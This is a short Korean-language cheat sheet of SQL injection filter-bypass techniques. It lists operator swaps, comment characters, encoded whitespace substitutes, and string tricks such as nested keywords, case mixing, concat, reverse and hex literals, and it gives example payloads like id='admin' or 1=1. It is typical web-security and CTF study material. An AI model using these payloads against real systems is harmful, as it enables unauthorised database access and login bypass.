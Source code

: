 # SQL injection

### 필터링 우회

OR/AND     
->  ||/&&   
ex) select * from table where id='admin' or 1=1   
->  select * from table where id='admin' || 1=1   
ex) select * from table where id='admin' and pw='password'   
->  select * from table where id='admin' && pw='password'   

주석   
->  -- # ;%00 -- - %23 /**/   
-- 주석 뒤에 공백문자가 있어야 된다.  
-- - 주석   
%23는 #을 의미한다.  
/*  주석할 내용  */   

=   
->  like in   
ex) select * from table where id='admin'  
->  select * from table where id like 'admin'   
->  select * from table where id in('admin')   

공백문자   
* tab : %09
* line feed(\n) : %0a
* carrage return(\r) : %0d
* 주석 : /**/
* 괄호 : ()
* 더하기 : +  
* back quote : \`   
ex) id='admin' or 1=1   
->  id='admin'%09or%091=1   
->  id='admin'%0aor%0a1=1   
->  id='admin'%0dor%0d1=1   
->  id='admin'/\*\*/or/\*\*/1=1   
->  id=(admin)or(1=1)   
->  id="admin"+or+1=1   

특정 문자열    
replace   
replace("admin","",$in) 일 때   
adadminmin으로 우회 가능   
+을 사용해서 우회   
ad+min우회   
대소문자를 이용하여 우회   
aDmIn으로 우회   
reverse   
id=reverse('nimda')   
concat   
id=concat('adm','in')   
16진수   
id=x'61646d696e'   
id=0x61646d696e;   
/\*! \*/   
/\*!union\*/   
